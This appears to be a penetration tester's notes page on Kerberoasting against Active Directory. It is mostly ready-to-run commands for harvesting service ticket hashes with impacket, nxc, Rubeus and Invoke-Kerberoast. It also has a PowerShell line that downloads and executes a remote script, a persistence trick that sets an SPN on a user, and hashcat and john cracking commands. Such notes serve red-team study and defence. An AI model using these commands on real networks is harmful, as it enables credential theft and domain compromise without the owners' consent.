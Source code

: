 ![](Pasted%20image%2020241116211514.png)
![](Pasted%20image%2020241116211606.png)
![](Pasted%20image%2020241116211637.png)

Kerberoasting focuses on the acquisition of **TGS tickets**, specifically those related to services operating under **user accounts** in **Active Directory (AD)**, excluding **computer accounts**. The encryption of these tickets utilizes keys that originate from **user passwords**, allowing for the possibility of **offline credential cracking**. The use of a user account as a service is indicated by a non-empty **"ServicePrincipalName"** property.

> The goal of Kerberoasting is to harvest TGS tickets for services that run on behalf of user accounts in the AD, not computer accounts. Thus, part of these TGS tickets is encrypted with keys derived from user passwords. As a consequence, their credentials could be cracked offline. More detail in [Kerberos theory](https://www.tarlogic.com/en/blog/how-kerberos-works/).

- [!] To perform this attack, you need an account on the domain

## Attack From Linux

```shell
nxc ldap 192.168.0.104 -u harry -p pass --kerberoasting output.txt
```

```shell
impacket-GetUserSPNs vuln.local/user1:P@ssw0rd -outputfile hashes.kerberoast
```

```shell
# ADenum: https://github.com/SecuProject/ADenum
adenum -d <DOMAIN.FULL> -ip <DC_IP> -u <USERNAME> -p <PASSWORD> -c
```

```shell
impacket-GetUserSPNs -no-preauth "NO_PREAUTH_USER" -usersfile "LIST_USERS" -dc-host "dc.domain.local" "domain.local"/
```

## Attack From Windows

Likewise, Kerberoasting can be performed from a Windows machine with several tools such as Rubeus or Invoke-Kerberoast from Empire project. In this case, tools are launched from the context of a logged user inside a domain workstation. The commands are the following:

```powershell
.\Rubeus.exe kerberoast /outfile:hashes.kerberoast
```

```shell
iex (new-object Net.WebClient).DownloadString("https://raw.githubusercontent.com/EmpireProject/Empire/master/data/module_source/credentials/Invoke-Kerberoast.ps1")

Invoke-Kerberoast -OutputFormat hashcat | % { $_.Hash } | Out-File -Encoding ASCII hashes.kerberoast
```

### Persistence

If you have **enough permissions** over a user you can **make it kerberoastable**:

```
 Set-DomainObject -Identity <username> -Set @{serviceprincipalname='just/whateverUn1Que'} -verbose
```

## Cracking TGS Password

```shell
hashcat -m 13100 --force -a 0 hashes.kerberoast /usr/share/wordlist/rockyou.txt 
```

```shell
john --format=krb5tgs --wordlist=/usr/share/wordlist/rockyou.txt hashes.kerberoast
```

